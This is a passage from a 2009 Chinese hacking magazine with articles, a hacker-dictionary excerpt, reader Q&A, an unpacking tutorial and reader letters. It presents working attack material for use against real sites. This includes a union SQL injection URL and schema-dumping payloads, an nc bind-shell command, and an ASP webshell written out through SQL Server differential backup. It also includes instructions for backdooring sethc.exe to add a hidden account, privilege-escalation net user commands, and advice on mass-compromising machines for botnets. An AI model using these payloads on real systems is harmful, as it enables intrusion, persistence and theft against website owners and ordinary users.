http://www.xxxx.com/fr/services/forums/inscription.asp?id=77%20and%201=2%20union%20all%20select%20@@version

得到结果如图 9。总之，union 注入的时候要灵活，受报错提示不断变化，以上算是对 union 注入的一点小总结吧，希望对大家有用。


**图9**

**编辑点评：** 本文介绍的是一个渗透方面的小技巧，是作者经验积累的奉献。如果大家要学习更多的渗透技巧，请关注“黑手”即将推出的新书《黑客渗透笔记》吧。

## 《黑客词典》试读

这本书所包含的词汇是《非安全：黑客手册》杂志与笔者几年来，从各种黑客技术类文章与书籍收集而来的。相对于英文词汇，这些中文词汇在我们平时的学习中，碰到的几率也更多，所以在你碰到不熟悉的词语时，这本书可以很好地帮助你。

在许多词语的解释中，也许会涉及到一些其它的术语词汇，可能有的读者在查阅某个词语时会被其中的其它陌生词汇所困扰，然后又陷入不能理解的情况。为了避免这个问题，笔者在每个词汇的解释中，对于本书有的一些词汇都做了标记，当你看到一个如“【交换机】”这样的标示时，就表明这个词典已经收录这个词，可以查阅。如果这个词在解释中多次出现，只会标记第一次出现的位置。下面，就带大家熟悉一下这本书的局部内容吧：

## 绑定 SHELL——攻击方法与行为

一般的木马或后门在开放受害主机的端口后，常会监视此端口所收到的数据，并将此数据作为命令发送给本地 SHELL 进行执行，其基本过程是先让程序运行，然后监听指定端口，在端口与程序之间建立管道，传送数据流。这样，所有从网上传送进此端口的数据都会交给程序处理，程序再返回信息给远程控制主机。

> **HACK TIPS：**
>
> 绑定 SHELL 对于新手来说，用编程来实现较为复杂，我们可以使用 NC 来绑定 SHELL，很简单的。过程为：在被控远程主机的 CMD 下运行 `nc -l -p 1989 -t -e cmd.exe`，这样就把一个 SHELL 绑定在 1989 端口上了。然后在本地控制端主机下，用 TELNET 连接远程主机的 1989 端口，即可执行命令。

## 暴错——黑客技术基础

许多程序在接收到错误数据或指令时会将此信息返回给用户，告诉其错误所在，这就叫做程序报错。而在进行入侵时，入侵者常需要通过报错返回信息来判断目标的情况，此思想在 Sql 注入中随处可见。

> **HACK TIPS：**
>
> 暴错的思想在入侵时广泛被应用；例如在判断服务器架构及软件运行版本时，可输入一个无效地址，对于错误处理没有设置好的服务器，往往会返回一些默认的信息，如图 B-2 所示。

以图 B-2 为例，我们可以看到，错误显示出目标为 PHP+MYSQL 的架构，PHP 版本为 PHP/5.1.4-0.1，WEBSERVER 使用的是 Apache/2.0.55。基于以上几点，大概能判断出服务器使用的是 *NIX。


进行 SQL 注入时，也可利用报错来判断服务器到底有无漏洞。例如在 URL 后加一个单引号，没有做过滤措施的网站会出现一定的错误，

```
Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in /data/webroot/zh/newslook.php on line 264
```

这样，不仅说明服务器有注入漏洞，也把服务器的本地路径给暴出来了。

## 踩点——渗透技术

指攻击者发起攻击或渗透之前，全方位、多渠道地收集、整理目标的信息资料，这些资料一般包括以下几个方面：

- 1. 目标网络域名情况；
- 2. 目标网络地址范围；
- 3. 目标网站所使用的系统；
- 4. 关键系统（如电子邮件服务器、网关、路由器、防火墙等）的具体位置、内部 VPN 的接入点等；
- 5. 目标的合作伙伴、分支机构、网络、第三方连接等；
- 6. 【社会工程学】资料：如员工的列表与邮箱及企业的电话号码；
- 7. 网站管理员资料；

> **HACK TIPS：**
>
> 基于上述几个信息，常见的相应踩点法有如下几种：
>
> 1. 通过 WHOIS 查询对方网络域名情况，查看对方注册绑定有几个域名。这样间接判断了有几个网站，为以后钓鱼划分准备。
> 2. 通过浏览目标网站了解其大致架构。整个网站由哪几个程序构成，有几个 WEB 服务器，有无 FTP 服务器，有无线邮件服务器等；
> 3. 用搜索引擎查询特定信息，如后台登录页面就可以用 GOOGLE 黑客的常用套路：`intitle:登录 in site:目标网站的域名`，或者 `intext:密码 in site:目标网站的域名`，如果运气好，或许能够搜索出一些有用的信息。

## 差异备份——数据库，攻击方法与行为

Sql Server 中数据备份种类的一种，只备份自上次数据库全部备份后数据库增加的操作。如果已经完全做过一次普通备份，又做过几次差异备份，当需要还原时，只需还原上次做的普通备份，再还原最后一次的差异备份就可以了。

这种特性在入侵中也常被使用，当目标的数据库只有 DB_OWNER 权限时，关键的【存储过程】都不能使用，这时就可使用差异备份导出一个 WEBSHELL。

其基本思路是：先创建一个表，将【一句话】写入表中，再将其数据库进行普通备份，最后在表中写入【一句话】进行差异备份。其典型命令如下：

```
create table cmd(str image);
backup database news to disk='c:\data\bak';
insert into cmd(str) values ('<%execute request("a")%>');
backup database news to disk='d:\web\test.asp' with differential,format
```


## 端口映射——黑客技术基础，渗透技术

也叫端口重定向，当一个主机 A 在【内网】而没有【外网】时，外部的主机 B 无法直接连接它，这时就需要统一一台带映射的网关，将主机 A 的【网关】有【公网】指定端口接收到的数据全部转发到主机 A 的端口上，这样就可通过连接网关的端口连接到内部主机 A 的端口了。

端口映射在渗透中经常用到，通常在得到了外部服务器的权限而想要继续与服务器内部的其它主机进行连接时，就需要做端口映射，常见的有 PortMap 与 LCX。如图 D-7，为 PortMap。

> **HACK TIPS：**
>
> 利用常规的端口映射有时会受到很多限制，首先被映射的主机必须要有公网 IP，而且还必须保证映射的端口没有被防火墙阻挡。而 LCX 这样的工具可以很好地解决这几个问题，它与普通端口转发工具有所不同。普通端口转发工具是被动监听端口，等待远程主机连接后再进行转发。这样，要连接到内网主机就必须要一台有【公网】IP 的主机，即必须要三台计算机。而 lcx.exe 是主动连接远程主机，TCP 连接建立后再进行端口转发，因此，不仅穿透【防火墙】的效果更好；而且也只需两台计算机，不过，需要其远程主机有公网 IP。

以上只是极小部分的内容，想了解更多的术语，请购买《黑客词典》吧。掌握这些术语，会让你更顺畅地与大家交流经验及技术，并认识很多朋友。

## Cracker 10086

每天有空的时候，我会走在街头到处逛逛。今年过了一个不太冷的冬季，曾经凋零了树叶的大树小树，曾经满地落叶的地上，现在都已经披上了绿衣，而地上也不再只是枯黄了的落叶。看着开满花儿的小树，才发现原来春天已经降临在大地上。还记得刚来北京那会，已经是冬天了，经过了北京的一个冬天，才发现北京的冬天并不是想象中的那么寒冷，不过也确实够我受的。所以如果你是冬天来北京的话，保暖的衣服是必不可少的。北京的春天还是挺漂亮的，不像冬天那么的萧条，但要想也只有在北京才能感受到春天的存在，看起来好像一切都是美好的。北京的技术氛围很重，到处都充满着学习的讨论，我也在空余的时候，经常去一些大学里面感受一下，因为我的大学校园很小很小。

## 每月破资源

- 1. **ASPack 2.2**

近来 ASPack 悄悄地升级到 2.2 版本了，相信大家对 ASPack 是绝对不会陌生，因为很多人在学习脱壳的时候，都是从这个壳说起的，是学习压缩壳脱壳的一个非常经典的练习程序。当然，ASPack 压缩壳在压缩程序中，压缩率也是非常之高的。光盘中附带我提供的一个别人已经汉化好的版本，找找哦，玩玩躲猫猫。如图 1。

相关链接：http://www.aspack.com/

- 2. **OllyScriptEditor 0.18**

顾名思义，就是 OD 脚本编辑器，作者是 BriteDream，使用它能够很方便地创建和编辑脚本代码，光盘附带提供了英文原版。


- 3. **PROTECTION iD v6.2.3**

PROTECTION iD 是一款非常强大的查壳工具，这个最新的版本增加了很多功能，与之前的版本相比，这个工具更加方便快捷，而且能够比之前的版本查出更多的壳出来。更详细的介绍请访问相关链接 http://pid.gamecopyworld.com/。如图 2。

## 再战未知壳的脱壳——esp 定律的妙用（二）

- December

从本文你可以学习到：

esp 定律的妙用

Hi，大家好，又是我。上一次给大家介绍 esp 定律的妙用，这一期我们继续学习，熟练地掌握好 esp 定律的用法，是能够脱很多壳的，虽然这个对付不了强壳、猛壳，但是普遍意义的必杀招。这一次依然给大家带来病毒类程序的目标练习文件，所以请保证你处于虚拟调试环境下，否则产生的一切后果，请自己负责。

即使知道这是一个未知壳，但是使用 peid 扫描一下是一个非常好的习惯，所以我一直坚持到今天，如图 1。

因为这个有别于一般已知能扫描出来的壳，所以看一下区段信息还是很有必要的，如图 2。

这样做的目的就是为了更大限度地收集信息，信息收集越多，内容越详细，对于脱壳来说还是有一定帮助的。看看图 2 的区段信息，好像很正常，与一般程序的区段信息没什么区别，所以这里也发现不了什么。但是有一些人喜欢搞点个性的区段信息，这样我们就可以获得一些重要信息了，还可以为我们脱壳提供一点方向，知道搜索什么信息以获得更多的资源。

对于脱壳，OD 这个调试器是非常强大的，在 OD 中打开文件，看到入口点代码如下：

图1　PEiD 扫描结果

| Name   | V. Offset | V. Size  | R. Offset | R. Size  | Flags    |
|--------|-----------|----------|-----------|----------|----------|
| .text  | 00001000  | 00000DC1 | 00000400  | 00000E00 | 60000020 |
| .rdata | 00002000  | 00000A0B | 00001200  | 00000C00 | 40000040 |
| .data  | 00003000  | 000254F3 | 00001E00  | 00017600 | C0000040 |
| .reloc | 00029000  | 000003A6 | 00019400  | 00000400 | 50000000 |
| .rsrc  | 0002A000  | 00000986 | 00019800  | 00000A00 | 40000040 |

图2　各区段信息

```asm
00401117 > /EB 22        jmp short 0040113B
```

虽说 Borland C++ 的程序的入口点也是 jmp 开始的，但是如果你接着往下看看代码的话，你就知道这些代码跟 Borland C++ 的入口点代码是完全不同的，而且这些代码也夸张得有点离谱；如图3。看见了吧？是不是根本看不懂这些代码呢？只是一些运算的东西。但是一开始就来这么一段东西，让人看着很不舒服，对吗？别担心，这些只是看看，可以忽略不计的，我们只是一个菜鸟。好吧，F8 走一下吧，来到如下代码处：

图3　OD 中入口点的代码

```asm
00401146    FFD0        call eax
00401148    F7D2        not edx
```

第一次我没跟进 call eax，而是直接步进到地址 00401148，此时寄存器上面的 esp 是没有显示红色的。但当我在下一次跟进 call eax，然后出来到地址 00401148 时，却发现了此时寄存器上面的 esp 已经显示为红色。两次对比不一样，所以在这里虽然 esp 显示红色了，但是我不认为此时是下 esp 断点的好时机。别急，继续 F8 走下面的代码：

```asm
0040114A    55           push ebp
0040114B    66:83EF EF   sub di, 0FFF        ;;;; ESP 显示红色
```

到了地址 0040114B 处时，我发现两次对比的时候在寄存器上面都会显示红色，所以这时也是该使用 esp 定律的时候了。下断点：hr esp，回车，F9 运行。在 F9 运行了 26 次后来到如下代码处：

```asm
00405224    60           pushad        ;;;; 26 次后停在这里
00405225    F5           cmc
00405226    BF C6B7D889  mov edi, 89D7D8C6
```

这时还是 F8 走走好，再 F9 的话，估计会飞了，那不是我们想到的结果。F8 一步一步往下走，如果有回跳就直接 F4 过去，不一会儿来到如下代码处：

```asm
00405364    ^E2 F1       loopd short 00405357
00405366    21E8         and eax, ebp
kernel32:7C800000
00405368    ^C3          retn
```

地址 00405368 处的 retn 有点面熟，好像是解码完毕，准备返回到 OEP 去。相关代码如下：

```asm
00177B7F    BF 00004000      mov edi, 400000
; ASCII "MZP"      ;;;; MZP 头吗？
00177B84    81CA BDFFC020    or edx, 200CFFBD
00177BAA    B9 00300200      mov ecx, 23000
00177BD7    F7D1             not ecx
00177BD9    66:C1C2 02       rol dx, 2
00177BDD    51               push ecx
00177BDE    66:83EF 8D       sub di, 0FF8D
00177BE2    29C0             sub eax, eax
00177BE4    F7D6             not esi
00177BE6    C3               retn
```

在之前的 26 次中断中，我发现有数据在解码，所以到了这里的时候估计才是解码完毕了。在地址 00177BE6 处的 retn 应该就是返回 OEP 了，不管怎么样，只要 F8 一下返回去就能确定是不是 OEP 了。

```asm
004016AE    55              push ebp
(initial CPU selection)     ;;;; 的确是 OEP
004016AF    8BEC            mov ebp, esp
004016B1    6A FF           push -1
004016B3    68 38224000     push 00402238
004016D9    6A 02           push 2
004016DB    FF15 60214000   call dword ptr [<&comctl32.ImageList_DrawIndirect>] ; msvcrt.__set_app_type
004016E1    59              pop ecx
004016E2    830D 3C314000 FF or dword ptr [40313C], FFFFFFFF
004016E9    830D 40314000 FF or dword ptr [403140], FFFFFFFF
004016F0    FF15 50214000   call dword ptr [<&comctl32.ImageList_GetImage>] ; msvcrt.__p__fmode
```

这几行代码我相信你比我还不熟，就是 C 语言编译出来的入口点代码。到了这里，已经成功一半了，如果 dump 下后能够修复好的话，那么脱壳就算完成了。很幸运的是，dump 下之后很容易地修复成功了，具体过程请参考上篇，这里我就不重复了。

## 脱壳总结

这是 esp 定律应用的第二篇，之前因为网上一朋友对这个定律使用得不够熟练，忙里偷闲地抽空了解了一下 esp 定律。没想到 esp 定律居然还有这些效果，不敢独享，和各位朋友一起交流分享一下。如果你也有什么好的方法，欢迎跟我一起交流。共同学习，才会有更多的进步。

> 【文章所涉及到的引导程序已收录在光盘中】

## 编辑点评

esp 脱壳定律，不知道是谁发明的，的确非常地好用，对于一些新手，只要看上几眼或者自己实践一下，都很容易掌握这个方法，而且居然还可以秒杀大部分的压缩壳。我在开始接触的时候，也确实意外了一下。通过前、后两篇文章来看，作者在使用这个 esp 定律的时候，很好地掌握好了使用的时机，虽然 esp 显示红色是使用时的重要标记，但也不是一看到红色就使用 esp 定律，所以有时候这里有可能会误导一些刚入门的朋友。

## 逆向工程打造粘滞键隐蔽后门有感

从本文你可以学习到：通过逆向打造更隐蔽的后门

2009 年 2 月的“黑手”上，菜客发表的《多种方法绕过 Windows 验证》的文章，里面介绍了利用 bat 命令以 Windows 本身的 cmd.exe 快速替换 sethc.exe，这个方法不错，但是我突然想到，既然你可以用，那别人也可以用啊，不就为他人也开方便之门了么？

一般大多数人在连 3389 的时候肯定都会多个心眼，试下粘滞键，按 5 下 Shift 键，希望出现个与平时不同的界面，呵呵！那有没有既不影响粘滞键本身功能，又可以做到神不知鬼不觉地留个后门呢？答案是肯定的。

### 第一步：准备工作

首先打开 LordPE 读取 sethc.exe，我们看到它的镜像基址和入口点分别为 01000000 和 000030E3，如图 1。

图1 LordPE 的 PE 编辑器

再拿 PEiD 0.94 进行查壳扫描，如图 2。点开 EP 区段，选择 data 区域。据大牛们的经验，这个区段的 0 区域较广，适合添加代码。我记下 RVA 的 000072B1，然后加上我们开始拿 LordPE 扫到的镜像基址即为 010072B1，如图 3。记下这个地址，后面要用到。

图2 PEiD 0.94

图3 区段的 cave 信息

### 第二步：添加代码

现在请出我们的动态调试工具 OD，载入 sethc.exe，如图 4。程序停在 010030E3 处，这里是入口点，我们记下这个地址，一会儿要用到。按下 Ctrl+G 查找表达式，就是我们刚才拿 PEiD 找到的 0 区域的地址，即 000072B1。来到 0 区域，是不是看到 HEX 数据都是 0 啊？对了！我们就是在这个空旷的地方加代码。

图4 OD 载入

图5 “右键→二进制→编辑”

图6 修改代码

我这里添加的代码是“net user hack tsp /add”，一共 21 个字节，所以从 010072B1 开始按住 Shift 键向下选中 11 行，因为一行是两个字节。虽然我们只有 21 个字节，但多少就让它空着，然后“右键→二进制→编辑”，在 ASCII 栏中填入代码，如图 5。

从 010072C5（刚才加代码的最后一行）往下走几行来到 010072CD，在这个地方我们要修改程序的新入口点。按鼠标右键→汇编，依次输入如下代码：

```asm
push 0            ; 新的程序入口点
push 010072B1     ; 这里是我们添加代码的第一行
call WinExec
jmp 01007312      ; 这里是跳转到下一个命令的地址
```

同样依次汇编如下代码：

```asm
push 0
push 010073E2     ; 第二个入口点，这是添加第二个代码的地址
call WinExec
jmp 010030E3      ; 跳回程序本身入口点
```

代码全部添加完成，此过程那是一帆风顺啊！接着从 000072B1 开始把修改代码的地方全部选中后，按鼠标右键→复制到可执行文件，准备保存文件，如图 7。然后就等着测试了，结果一运行，弹出图 8 的错误提示！

### 第三步：解决问题

这个结果是我没想到的，不断尝试了无数次都是这个结果，有问题了！开始都还顺顺利利的，最后关头就……休息下，换下思维。我另外找个比较宽敞的 0 区域，结果还是一样！百度一下，又问了下朋友，得出如下结论：菜菜们注意了，不要走弯路。“在 OD 里看到的代码段大小都是 vsize，而文件里的是 rsize。通常情况下 vsize>=rsize，修改时以 rsize 为准。”

原来我们在 OD 中看到的 0 区域超出范围了（我是这么理解的，不知道对不对），于是我又打开 C32Asm，选择汇编方式，在里面挑选 0 区域，并记下地址，如图 9。还是按照上面的方法添加代码，过程我就不说了，如图 10、图 11。

这次终于成功，皇天不负有心人！到这里我们基本上完成了 70% 的工作。于是马上用批处理替换系统文件，注销账户，按 5 下 Shift 键，粘滞键的界面出来了，大笑一个先。然后按两下热启动键，弹出输入账户密码的经典登录框，输入我们刚才添加的 hack 和 tsp，结果提示用户名或密码错误！不会吧？我接着试了几遍，还是一样！又郁闷了！看来是好事多磨啊！

到处找原因，还是不得其法，休息下喝杯冰水先。突然想起，我添加代码不是也添加了新的入口点吗？入口点都没改，那程序不是还是按照原来的入口点开始吗？于是立马打开 LordPE 载入程序，把入口点修改为 01006AFD（就是 push 0 的地址），一路保存，确定，退出，如图 12。

再测试，当然是成功啦，如图 13。

最后：注意和说明

简单说下，我们在用批处理替换系统程序的时候，虽然连同 dllcache 文件下的备份一起替换，但还是会弹出提示框。无视它，点“取消”，选“是”，如图 14。

还有就是做的这个后门无论在功能和文件大小上都没有对系统文件本身造成影响，如图 15，大家可以看一下修改前和修改后的对比。

粘滞键还是可以用的哦！我们启动粘滞键的时候就先添加我们的代码，再启动粘滞键本身的功能，只是启动后门后就加了个新用户，容易被管理员发现。但是管理员也只能把它删了，即便他拿系统文件扫描也扫不出来，可以说是终极后门了。要是机子装有一键还原或者是 GHOST 还原的话，我们还可以为他免费备份一下，以后就任他怎么还原了，哈哈！当然，重装系统除外！最后祝“黑手”：越办越好，大家的技术越来越高！

## 读编互动

> **编辑点评：**

我一直都说，逆向工程是迷人的。逆向工程最好的地方就是通过分析之后能够改造程序代码或者执行流程，又或者其它因素。本文所介绍的方法还是算不错的，前阵子，我跟一个朋友也研究了一下类似这方面的东西，假如后门在程序执行 main 函数之前就执行了，那算不算也是一个隐藏的后门呢？

Q：笔记本电脑把开机密码忘记了，需要怎样才能找回密码呢？而且有个密码用的是自己的指纹，害得现在就只有自己能用，哎，真是悲剧啊！请问各位大虾，在忘记文字或数字组成的开机密码时怎样才能找到开机的密码呢？

A：指纹识别或是头像识别，都是启动 Windows 操作系统的验证模式，是登录密码验证的另外一种模式。这里谈及如何破解开机密码：

- 1. 先用光盘或者 U 盘启动计算机，再使用 WINPE 微型操作系统，载入系统后使用命令可以修改 administrator 账户的密码。比如在 CMD 下键入：`net user administrator yourpassword`，这样密码就修改成 `yourpassword` 了。注意，在 WINPE 下是没有 localgroup 的概念，所以不能把添加的用户应用在管理员组。
- 2. 所谓的上帝之门或者 GINA 木马，可以让密码成为虚设或者在登录时截获密码，但是这两种方法基本离题了。
- 3. 所谓的破解，利用 pwdump 获取系统 HASH，然后导出采取 LC5 或者 saminside 跑密码。当然，现在有了彩虹表的介入，我们可以直接使用 ophcrack 或者 SAMINSIDE 等配合彩虹表来进行破解。

原文链接：http://www.nohack.cn/bbs/thread-94111-1-1.html

Q：搞一个 php+mysql 的站，得到数据库版本信息：5.0.67-community-nt，数据库用户：root，密码：未知；没有打开 3306 端口。通过测试，存在注入点，但不能 out_file / 清解壳。php 爆出了绝对路径，可以 load_file()，但是一些重要的文件却不能 load_file，返回一片空白……为什么同一个目录下的文件有些可以 load_file，而一些文件又 load 不出来呢？

A：猜表可以用工具暴力破解，不过概率太低。很多时候要先看一下注入点是否可以 union 查询，因为已经知道数据库版本为 5.0.67-community-nt 了，可以通过手工 union 查询来暴表。相关语句如下：

```sql
爆出所有的数据库：
union/**/select/**/1,concat(char(124,13,10),SCHEMA_NAME,char(124,13,10)),3,4,5,6,7,8,9,10,11,12,13,14,15 from/**/information_schema.SCHEMATA limit 0,1/*
```

```sql
爆出所有表名：
先用 union%20select 0,1,TABLE_NAME,3,4%20FROM%20INFORMATION_SCHEMA.TABLES limit 0,1/*
爆出所有的列名，再用 union%20select 0,1,COLUMN_NAME,3,4%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME=要查询的表名 17,1/*
```

很多时候用 load_file() 不能读取出文件内容，原因有很多，主要是权限问题。有时候出来的内容会被当作脚本而执行，这样我们就不能查看到源文件了。

原文链接：http://www.nohack.cn/bbs/thread-94040-1-2.html

Q：我用 Domain 和啊D扫同一网站，两个软件的结果相同，内容如下：

## 读编互动

```text
admin内容：admin
password内容：9986
后台地址：http://www.cdgoodxxx.com/english/admin/adminlogin.asp
```

可是怎么进不去？提示：密码或用户名错误！

**A：** 显然，这种密码是经过加密处理了！该网站采用的是宁乡新闻网系统（晋城新闻、三峡新闻），这一类新闻系统同时存在一个上传漏洞，这里的漏洞页面是 `english/admin/uploadPic.inc.asp`，简单提交即可获取一个 webshell。很显然，可以在登录验证页面找到一段加密代码（已做简单注释），内容如下：

```asp
function decrypt(dcode) '定义一个函数decrypt 参数'dcode'
  dim texts      '变量
  dim i
  for i=1 to len(dcode)  '循环参数的长度次数 len
    texts=texts & chr(asc(mid(dcode,2,i))-i)  '把texts的值和原来的连接起来并通过chr得到字符串，asc为后面的asc把字符串转为ASCII码了，mid就是把参数后面的字符获取。这里的2是从1往后的两个字符。
  next
```

这种代码稍懂 ASP 的朋友就能看懂，当然有朋友提到了万能密码，也是一种绕过模式。在这种鸡肋系统的前提下，不需要后台权限也可以拿 webshell 的。

> 原文链接：http://www.nohack.cn/bbs/thread-93914-1-1.html

**Q：** 昨天遇到个站，有 serv-u 漏洞（版本是 6.3 的），利用 shell 的提权功能成功执行命令，可当第二次执行命令就无法成功了，后面执行了好几次也不成功，今天又去试了下，发现也是同样只能执行一次命令，这是什么原因？

**A：** 很多朋友都提到过你这种情况，可能是提权脚本的问题，也有可能是服务器的安全设置。如果你需要键入多个命令，可以采取 & 作为连接符号。例如：`net user admin 123 /add&&net localgroup administrator admin /add`，同时执行了添加用户以及应用到管理组的双重命令。当然，如果你需要执行多项命令，利用批处理或者 vbs 都可以完成。你同样可以上传木马到服务器执行后获取系统权限，然后利用主动防御程序或者防火墙简单判断你的程序是否运行。

> 原文链接：http://www.nohack.cn/bbs/thread-93798-1-1.html

**Q：** 求助现在能迅速抓到鸡的方法，最好是使用工具的方法。

**A：** 所谓快速抓鸡，基本上是仁者见仁，智者见智。对于木马的操作以及免杀能力当然是不可或缺的，那么关键就是效率问题。首先谈谈主动攻击的手段，对于个人肉鸡，可以采取 WMI 或者 MS08-067 溢出。现在许多工具都集成了批量抓鸡的程序，例如“渡天全自动抓鸡器”等。面对千服多机，采用常规的扫描 SA 弱口令、3389 弱口令等，或者很多针对服务器的溢出 exp（类似 IIS PRINT 以及 DNS 溢出等）。

再说被动模式，就是大众钓鱼、愿者上钩，其传播效率、隐蔽性和免杀强度是最重要的。例如资源如何具备诱惑性，如何躲避某些软件及不易察觉，这些可以通过一些大型 P2P 程序，或者入侵网站后挂网页木马执行。现在主流的手段就是入侵流量高的网站进行挂马，这样获取肉鸡的效率远比其它方法来得高。所以建议你从基础开始，学会精通远程控制以及一定的入侵服务器的能力。

> 原文链接：http://www.nohack.cn/bbs/thread-93425-1-1.html  
> thread-90108-1-1.htm

5月啦！某些朋友会不会趁着3天小假而打算练手呢？我觉得还是出去晒晒太阳比较好。以前五一长假过后，都会在网络上看到黑客利用假期而进行活动的报道，也许是人们在假期总是享受快乐而忘掉了防备吧。现在随着无线设备的普及和服务的完善，在给予人们方便的同时，也带来了安全隐患。建议大家在没有完全把握无线设备安全性的情况下，还是少用无线比较好。

## 建议选摘

**名字：** 保密  
**职业：** 学生  
**建议：** 希望可以看到很详细的灰鸽子的使用教程；因为我一直都对那个不是很了解，希望是那种完全傻瓜型的教程；最好附带能讲解上线、花生壳的教程。

**名字：** 曾望  
**职业：** 学生  
**建议：** 对于一个高三的学生来说，我很感谢你们送的那支黑笔，但我更需要支红笔……离题了，呵呵。嗯，我建议多来点 Linux 方面的知识吧！虽然我离高考不远了，但每月一本的《黑》我依旧未放弃过。

**菜编来鸟：** 灰鸽子目前的查杀率相当的高，以前杂志及论坛上都有很多的“鸽子”资料，建议你自己动手搜索一下。确实，好久没听到过关于鸽子的消息了，与以往相比，冷清了很多。后面一位同学对 Linux 方面感兴趣，那就不要错过杂志每期的“窗外”栏目啊，已经进行到无线领域的讲解了，值得关注。

**名字：** 王川  
**职业：** 工人  
**建议：** 我是一名忠实的读者，自从看了贵社的杂志书籍，对黑客技术有了一个新的理解，也使我更加热爱于黑客世界。但是对于杂志书籍中所写的各种代码、漏洞分析、木马程序、攻击手段和一些命令，我都还不能理解，所以这次购买《精通脚本黑客》来实现自己对一些代码、漏洞、木马程序、病毒的读解与编写。

我非常热爱黑客技术，也非常崇拜那些来无影，去无踪的黑客大侠们。黑客那种孤傲、寂寞、入侵时的激动，成功后的喜悦都让我怦然心动。从很早起，学好黑客技术，做一个潇洒自在的黑客就成了我心中的梦想……

**名字：** 樱花太子  
**职业：** 学生  
**建议：** 对于杂志的内容，其实也没太多说的，就是希望杂志能多刊登些硬件方面的文章。俗话说的好：“软件是灵魂，硬件是躯体”，要想我们自己更加真实，就要软硬兼施，加强知识的提升，武装到牙齿，这样也不会成为只有灵魂，没有躯体的孤魂野鬼了。

**热得脱靶的菜编：** 学好任何一门技术都大都是先学理论，而后实践。现在很多朋友喜欢一步到位，看着说明就练手，一点分析和思路都没有，而且没有做笔记的习惯，一遇到问题就到处问。建议大家最初先学好 google hack、查点、踩点、收集，是黑客必备的基本技术，不要动不动就拿幼稚的问题去问人。别人一烦，你连交流的机会都没了。

## 非安全

## 安全基础

NO 2009.06

## 黑客手册

我想这样长大

娱乐及发掘局域网服务器 VNC  
无线路由器/AP 技巧

空气中的晚餐——采访无线安全专家杨哲[Longas]

## 风暴中的暴风0Day

- Qvod电影系统之 XSS 钓鱼
- PHP168整站系统之 CSRF 攻击
- DiggCMS 系统漏洞分析与利用
- Leobb 远程代码执行 0day 分析
- 可突破 Blog 主题二次引擎的安全
- 评述某留言本 0day 分析与利用

- 攻防2006后门管理员——从重启到溯源
- Update后门之日常 cmdshell
- 渗透某大型内网
- 绕过 WINDOWS 自定义错误继续深入

- 分析和编写 PHP168 文件源码泄漏工具

- 某配置不当导致的攻击方法

Psi-b0ok 计在内网渗透的应用  
Group_concat 函数终被利用

DVD 精彩附送一张

## 我和《非安全·黑客手册》第一次亲密接触

引言：火热的六月，亲密的接触（某猿编：禁止和猪接吻），夏天到了！非常感谢大家对“我与黑手的第一次亲密接触”活动的大力支持和踊跃参与，我们心里是 piapia 的：嗨……呼吸都有点缺氧。各位的热情真是太出乎意料了，每天邮箱都会收到来自全球的“黑手”读者发来的 E-mail（米国德州读者发来贺电：俺代表俺村……某猿：对不起，这是俺山东读者），大家写感慨，发图片，恨不能拉着我们的手坐下来，对饮一番、指点江山……无论是认识“黑手”而带给自己的变化，还是为了自己而让“黑手”变化，我们都欢迎大家畅所欲言，心无隔阂。（亲密信箱：nohack@21cn.com）

## 强文版 我的“非安全”瘦身红宝书

读者：xiaojiaoya001

“非安全”T恤大家都知道吧？今天来分享下自己的 T 恤“非安全”之路。这路走得有点远了啊，去年刚上大学，生活有点小腐败，把自己的体重飙升到了160（某猿：读者原稿中就没有写明体重的单位数值，看来保守估计下应该是斤吧？）。高中时候衣服都是 XXL 号的，从上了大学开始，衣服就变成 XXXL 号的了，肩膀太宽的原因！

今年初夏接触到“非安全”，本人非常喜欢 Hack 的，但一直是只菜鸟，自己的网站也经常遭受 hack 的来访，所以想学点技术维护网站的安全！有点喜欢“非安全”个性的内容（让我更容易明白），而且个性的书皮、个性的 CD 包、个性的水壶和个性的 T 恤都很吸引人。

“非安全”T恤是我从《黑客青苹果手册》中看到的，一见钟情，晚上就联系“非安全”的客服说这 T 恤的事，结果没我号，心是拔凉拔凉的。难得看到我认为非常好看的衣服，怎么能没我的号呢？经过反复思考，还是买下了，虽然现在可能穿不了，等我瘦了我再穿，错过了可能就没有了！

收到衣服一看，果然小了，我们宿舍的几位兄弟都说好看，决心从此时开始减肥吧……以前有过减肥的历史，辉煌啊，一个星期瘦了10斤！所以这次特有信心，下面是我的瘦身计划：

- 一、吃的方面：（某猿：眼花，看成“吃的方便面”了）：
  - 早餐：牛奶 + 鸡蛋（营养要达标）
  - 中饭：一碗米饭 + 菜 + 一碗汤（基本能量够了）
  - 晚饭：一碗稀饭（晚上就有点……但绝对可以）

- 二、运动方面：（我是健康瘦身）
  - 每天晚上跑步3000米 + 100个俯卧撑（看上去有点夸张，其实只要你坚持一个星期，后面就非常轻松了）
  - 3000米可以根据个人体质来划分为几次跑，我是在学校操场跑步，所以分了两次跑，中途慢走10分钟。一次性跑完3000米实在太累，特别是在这个季节，这样的瘦身计划是非常好的。

天大汗淋漓，身上的脂肪在不断地燃烧，我得到的结果就是：健康地瘦了，心情变得舒畅了！真的，每次跑完步心情都非常愉悦的！（某猿：操场肯定也有 MM 在跑的，偶当年就是怀着不同的目的去跑步的……）

备注：跑完步要注意“保暖”，不要冲凉，让身上的汗自然干去，冲凉太容易感冒。去年我就感冒了，天天高烧！那效果又是不一般啊！更减得快！

我就是这样把 XXL 号的衣服给穿上了，一个月时间我瘦了15斤，今年的瘦身力度没有以前的那么大，所以就瘦得不是非常多，但是已经可以穿上 XXL 号的衣服了，心情不是一般的爽，因为我喜欢，所以才愿意付出这个“非安全”之路（有点艰辛，有点痛苦，饿啊！）。

某猿点评：作为编辑部最瘦的，俺吃什么都不会胖，因为我一直在运动。就算身体不动，思想也在动，多年后发现，意识减肥还真是个好方法！另外……这个牛奶和鸡蛋一定要注意了哦，最近食品安全问题让人惶惶啊，虽然说吃素在一定程度上可以帮助减肥吧，但确实要注意营养的摄取，别搞得连下半身都没力……那就无法跑步了啊，哈哈！

## 张路同学强大的图片

看到了“黑手”推出活动，偶是黑粉，不得不支持啊！马上打电话问亲戚借相机，下班拍照拍到11点（某猿：下班拍照一直到第二天11点？），100多张浓缩到20多张，里面记录了我和“黑手”的点点滴滴，很多专题书借出去就再也没回来过，不过杂志都在！“黑手”4年的成长很快，我会继续关注“黑手”，也希望“黑手”以后的路会越走越好！

呵呵，不多说了，请大家看图（见2009年6期“黑手”封二），只评价“黑手”，不要评价本人了……（某猿：不敢）

